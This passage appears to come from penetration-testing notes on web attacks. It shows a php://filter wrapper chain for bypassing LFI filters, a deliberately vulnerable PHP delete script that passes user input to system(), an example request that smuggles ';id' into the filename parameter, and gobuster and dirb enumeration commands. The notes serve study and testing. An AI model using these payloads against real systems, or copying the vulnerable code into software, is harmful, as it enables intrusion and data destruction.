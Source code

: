 ### LFI / RFI by Bypassing Filters Using Wrappers

From [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/73aa26ba6891981ec2254907b9bbd4afdc745e1d/File%20Inclusion/README.md#lfi--rfi-using-wrappers)   `php://filter/` has multiple ways to bypass PHP input filters ;These can be chained with `|` or `/` : zip, data, expect, input, phar; many more different wrappers to try!

```php
/zlib.deflate/read=string.rot13/convert.base64-encode/convert.iconv.utf-8.utf-16/resource=<resource to get>
```

## Command Injection

{% embed url="https://owasp.org/www-community/attacks/Command\_Injection" %}

### PHP Command Injection

The following PHP code snippet is vulnerable to a command injection attack:

```php
<?php
print("Please specify the name of the file to delete");
print("<p>");
$file=$_GET['filename'];
system("rm $file");
?>
```

The following request is an example of that will successful attack on the previous PHP code, and will output the results of the `id` command: `http://127.0.0.1/delete.php?filename=bob.txt;id`.  Look for exposed `$_GET['filename']` type variables that take input from the user, or can be injected into from the URL.  This combined with `system("<command>")` will allow for command injection.

Local File Inclusion \(LFI\) / Remote File Inclusion \(RFI\)

Common and/or useful files to check for when exploiting Local File Inclusion \(for both Linux and Windows\): [https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI](https://github.com/tennc/fuzzdb/tree/master/dict/BURP-PayLoad/LFI)

## HTTP Enumeration

* Search for folders with gobuster:

```text
gobuster -w /usr/share/wordlists/dirb/common.txt -u $ip
```

* OWasp DirBuster - Http folder enumeration - can take a dictionary file
* Dirb - Directory brute force finding using a dictionary file

```text
dirb http://$ip/ wordlist.dict

dirb <<http://vm/>>
```

